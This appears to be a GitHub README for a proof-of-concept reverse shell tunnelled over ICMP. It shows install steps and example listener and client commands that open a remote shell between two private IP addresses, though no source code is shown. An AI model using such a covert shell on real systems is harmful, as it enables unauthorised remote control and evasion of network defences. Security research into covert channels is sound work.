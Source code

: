 # My-ICMP-Reverse-Shell
POC Python implementation of Reverse Shell over ICMP.

This uses Python 3. To install the requirements:
```
pip install -r requirements.txt
```

## Listener
````
sudo python listener.py --help          
usage: l.py [-h] -d DESTINATION

options:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        Client IP address
````

Example:
````
sudo python listener.py -d 192.168.200.5
````


## Client
````
sudo python client.py --help          
usage: l.py [-h] -d DESTINATION

options:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        Client IP address
````

Example:
````
sudo python client.py -d 192.168.200.120
````